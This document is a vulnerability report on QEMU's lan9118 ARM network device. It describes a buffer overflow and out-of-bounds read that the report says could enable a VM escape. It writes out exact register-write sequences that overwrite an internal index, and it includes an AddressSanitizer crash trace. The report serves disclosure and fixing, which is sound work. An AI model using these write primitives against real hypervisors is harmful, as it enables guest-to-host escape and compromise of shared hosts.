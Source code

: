 # Out of bounds read in lan9118

# Buffer overflow and out-of-bounds read in lan9118 NIC for ARM

There is a buffer overflow in tx_fifo_push in lan9118 NIC for ARM causing an
out-of-bounds read of tx_status_fifo. The write and read primitives are so
powerful that they can likely be abused to escape the VM.

## Read primitive
In tx_status_fifo_pop, there is an out-of-bounds read at the line:
val = s->tx_status_fifo[s->tx_status_fifo_head];
because there is an overwrite of s->tx_status_fifo_head.

Security Impact: because s->tx_status_fifo_head is int32, so this read primitive
seems powerful.

## Buffer overflow and the write primitive

In tx_fifo_push, there are three states for tx_fifo: TX_IDLE, TX_B, TX_DATA.
However, because of the lack of the check of s->txp->len, we can visit
TX_IDLE->TX_B->TX_DATA many times to overflow s->txp->data whose size is only
2048 then overwrite s->tx_status_fifo_head.

This can be done like below. (Suppose the hardware address of lan9118 is 0x5000000.)

First, the max size of the buffer you can write once is 0x800. The pattern is in
the following.

	writel 0x5000020 0x800 // 0x800 bytes buffer you’d like to write
	writel 0x5000020 0x0
	writel 0x5000020 0x0 … (0x200 times) // issue 0x800 / 4 times

Second, repeat the first step (change the size of the buffer you’d like to
write) and reach where you’d like to overwrite.

```
    LAN9118Packet tx_packet;     // last field: data[2048]
    int32_t tx_status_fifo_used;
    int32_t tx_status_fifo_head; // overwrite this
    uint32_t tx_status_fifo[512];
```

If I’d like to overwrite tx_status_fifo_head, then I should issue instructions
in the following.

writel 0x5000020 0x8
writel 0x5000020 0x0
writel 0x5000020 0xaabbccdd // overwrite tx_status_fifo_used
writel 0x5000020 0xddccbbaa // overwrite tx_stats_fifo_head

Security Impact: Because we can repeat the first step without limit, this write
primitive seems very powerful.


## More details

### Hypervisor, hypervisor version, upstream commit/tag, host

qemu, 7.2.50, 222059a0fccf4af3be776fe35a5ea2d6a68f9a0b, Ubuntu 20.04

### VM architecture, device, device type

arm, lan9118, net

### Bug Type: Out-of-bounds Read

### Stack traces, crash details

```
AddressSanitizer:DEADLYSIGNAL
=================================================================
==426==ERROR: AddressSanitizer: SEGV on unknown address 0x62cf773fa008 (pc 0x561e8635387a bp 0x7fff71ca92a0 sp 0x7fff71ca9260 T0)
==426==The signal is caused by a READ memory access.
    #0 0x561e8635387a in tx_status_fifo_pop /root/qemu/build-oss-fuzz/../hw/net/lan9118.c:730:11
    #1 0x561e86352b79 in lan9118_readl /root/qemu/build-oss-fuzz/../hw/net/lan9118.c:1249:16
    #2 0x561e86aea48c in memory_region_read_accessor /root/qemu/build-oss-fuzz/../softmmu/memory.c:442:11
    #3 0x561e86ad2895 in access_with_adjusted_size /root/qemu/build-oss-fuzz/../softmmu/memory.c:552:18
    #4 0x561e86ad2895 in memory_region_dispatch_read1 /root/qemu/build-oss-fuzz/../softmmu/memory.c:1422:16
    #5 0x561e86ad2895 in memory_region_dispatch_read /root/qemu/build-oss-fuzz/../softmmu/memory.c:1450:9
    #6 0x561e86971a83 in flatview_read_continue /root/qemu/build-oss-fuzz/../softmmu/physmem.c:2810:23
    #7 0x561e86a2cf0a in address_space_read /root/qemu/include/exec/memory.h:2518:26
    #8 0x561e86a2cf0a in qtest_process_command /root/qemu/build-oss-fuzz/../softmmu/qtest.c:568:13
    #9 0x561e86a2cf0a in qtest_process_inbuf /root/qemu/build-oss-fuzz/../softmmu/qtest.c:797:9
    #10 0x561e86c15d5b in fd_chr_read /root/qemu/build-oss-fuzz/../chardev/char-fd.c:68:9
    #11 0x7f0e3bfa23a4 in g_main_context_dispatch (/usr/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4c3a4)
    #12 0x561e8707e8e7 in glib_pollfds_poll /root/qemu/build-oss-fuzz/../util/main-loop.c:231:9
    #13 0x561e8707e8e7 in os_host_main_loop_wait /root/qemu/build-oss-fuzz/../util/main-loop.c:254:5
    #14 0x561e8707e8e7 in main_loop_wait /root/qemu/build-oss-fuzz/../util/main-loop.c:530:11
    #15 0x561e86b38138 in qemu_main_loop /root/qemu/build-oss-fuzz/../softmmu/runstate.c:725:9
    #16 0x561e85ac86a5 in main /root/qemu/build-oss-fuzz/../softmmu/main.c:50:5
    #17 0x7f0e3ada2bf6 in __libc_start_main /build/glibc-S9d2JN/glibc-2.27/csu/../csu/libc-start.c:310
    #18 0x561e859ef589 in _start (/root/qemu/build-oss-fuzz/qemu-system-arm+0x1108589)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV /root/qemu/build-oss-fuzz/../hw/net/lan9118.c:730:11 in tx_status_fifo_pop
==426==ABORTING
```

## Contact

Let us know if I need to provide more information.
